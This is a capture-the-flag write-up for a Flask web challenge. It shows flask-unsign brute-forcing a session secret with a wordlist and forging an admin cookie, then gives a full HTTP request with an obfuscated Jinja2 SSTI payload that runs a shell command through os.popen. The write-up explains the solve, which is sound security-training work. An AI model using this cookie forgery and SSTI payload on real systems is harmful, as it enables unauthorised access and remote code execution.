



# Father's Light
> Enter the enigmatic realm of "Father of Light" Unleash your skills, explore hidden paths, and uncover the depths of mysterious creations. Will you emerge as the champion? Dare to unravel the enigma.

## About the Challenge
We have been given a website (Without source code) and there is a login page in this website



## How to Solve?
If you check the HTTP response header, this website using Python and Werkzeug.



And now I tried to make the website error to know what is the response. In this case I made the website error by removing `password` parameter when hitting `/login` endpoint


Hmmm there is an interesting code here especially in the `elif` part. Lets try to login using `admin:password` credential



Yay, we can login but as an `user`? Let's check the cookie value


This website was using flask for Session-based auth. And because of this website using flask, we can bruteforce the secret key and changed the value of the cookie.

```bash
root@root:~$ flask-unsign --unsign --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM5ITg.NrGKbBGCkxPIk0iQLQE2Cuc2cGc" --wordlist /home/daffainfo/tools/rockyou.txt  --no-literal-eval
[*] Session decodes to: {'is_admin': False, 'user_id': '162', 'username': 'admin'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 30080 attempts
b'amorlove'
```

We got `amorlove`. And now tried to change the value of `is_admin` from `False` to `True`. Sign the cookie again using `flask-unsign`

```bash
root@root:~$ flask-unsign --sign --cookie "{'is_admin': True, 'user_id': '162', 'username': 'admin'" --secret 'amo
rlove'
.eJxTqlbPLI5PTMnNzFO3UggpKk3VUVAvLU4tis9MAQqoG5oZqUNF8hJzU0FCEMVKABlZEb0.ZM5KNg.PfOTwsnj9w7TxbSPYtQDuLg9lJQ
```

Use the cookie to access `/user` endpoint again and as you can see the the privilege was changed from `user` to `admin`. Now go to `/dashboard` and you will find another form that vulnerable SSTI. In the end the payload was something like this

```
POST /POST HTTP/1.1
Host: 34.18.3.149:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://34.18.3.149:5000
Connection: close
Referer: http://34.18.3.149:5000/dashboard
Cookie: session=eyJpc19hZG1pbiI6dHJ1ZSwidXNlcl9pZCI6IjEiLCJ1c2VybmFtZSI6ImRkZGQifQ.ZM2u4A.rbYhmXmWZmjpdzXAIQH6pb5EFfk
Upgrade-Insecure-Requests: 1

name={{lipsum['\x5f\x5fglobals\x5f\x5f']['os']['po''pen']('cat+app.py')['re''ad']()}}&email=test%40mail.com&post_content=test
```

> There is no screenshot for this part because the website was down

```
ASCWG{H0la_H@Ck3r5_Th1s_a_S3m6le_55TI}
```